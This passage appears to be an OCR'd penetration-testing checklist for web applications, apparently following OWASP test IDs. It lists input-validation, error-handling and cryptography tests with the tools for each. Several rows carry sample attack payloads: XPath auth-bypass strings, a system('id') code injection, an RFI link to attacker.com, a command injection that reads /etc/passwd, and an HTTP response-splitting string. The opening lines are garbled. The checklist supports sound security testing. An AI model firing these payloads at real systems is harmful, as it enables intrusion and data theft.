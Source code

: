< ! # = / . "" - > and [a-zA-Z0-9]
• include String = "	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-010	Testing for XPath Injection	"Check for XML error enumeration by supplying a single quote (')
Username: ‘ or ‘1’ = ‘1
Password: ‘ or ‘1’ = ‘1"	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-011	IMAP/SMTP Injection	"• Identifying vulnerable parameters with special characters
(i.e.: \, ‘, “, @, #, !, |)
• Understanding the data flow and deployment structure of the client
• IMAP/SMTP command injection (Header, Body, Footer)"	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-012	Testing for Code Injection	"Enter OS commands in the input field.
?arg=1; system('id')"	Burp Proxy, ZAP, Liffy, Panoptic	Not Started	
	Testing for Local File Inclusion	LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource)	Burp Proxy, fimap, Liffy	Not Started	
	Testing for Remote File Inclusion	"RFI from malicious URL
?page.php?file=http://attacker.com/malicious_page"	Burp Proxy, fimap, Liffy	Not Started	
- [ ]-INPVAL-013	Testing for Command Injection	"Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server.
%3Bcat%20/etc/passwd
test.pdf+|+Dir C:\"	Burp Proxy, ZAP, Commix	Not Started	
- [ ]-INPVAL-014	Testing for Buffer overflow	"• Testing for heap overflow vulnerability
• Testing for stack overflow vulnerability
• Testing for format string vulnerability"	Immunity Canvas, Spike, MSF, Nessus	Not Started	
	Testing for Heap overflow			Not Started	
	Testing for Stack overflow			Not Started	
	Testing for Format string			Not Started	
- [ ]-INPVAL-015	Testing for incubated vulnerabilities	File Upload, Stored XSS , SQL/XPATH Injection, Misconfigured servers (Tomcat, Plesk, Cpanel)	Burp Proxy, BeEF, MSF	Not Started	
- [ ]-INPVAL-016	Testing for HTTP Splitting/Smuggling	param=foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>	Burp Proxy, ZAP, netcat	Not Started	
					
Error Handling	Test Name	Description	Tools	Result	Remark
- [ ]-ERR-001	Analysis of Error Codes	Locate error codes generated from applications or web servers. Collect sensitive information from that errors (Web Server, Application Server, Database)	Burp Proxy, ZAP	Not Started	
- [ ]-ERR-002	Analysis of Stack Traces	"• Invalid Input / Empty inputs
• Input that contains non alphanumeric characters or query syn
tax
• Access to internal pages without authentication
• Bypassing application flow"	Burp Proxy, ZAP	Not Started	
					
Cryptography	Test Name	Description	Tools	Result	Remark
- [ ]-CRYPST-001	Testing for Weak SSL/TSL Ciphers, Insufficient Transport Layer Protection	Identify SSL service, Idectify weak ciphers/protocols (ie. RC4, BEAST, CRIME, POODLE)	testssl.sh, SSL Breacher	Not Started	
- [ ]-CRYPST-002	Testing for Padding Oracle	"Compare the responses in three different states:
• Cipher text gets decrypted, resulting data is correct.
• Cipher text gets decrypted, resulting data is garbled and causes
some exception or error handling in the application logic.
• Cipher text decryption fails due to padding errors."	PadBuster, Poracle, python-paddingoracle, POET	Not Started	
- [ ]-CRYPST-003	Testing for Sensitive information sent via unencrypted channels	"Check sensitive data during the transmission:
• Information used in authentication (e.g. Credentials, PINs, Session
identifiers, Tokens, Cookies…)
• Information protected by laws, regulations or specific organizational
policy (e.g. Credit Cards, Customers data)"	Burp Proxy, ZAP, Curl	Not Started	
					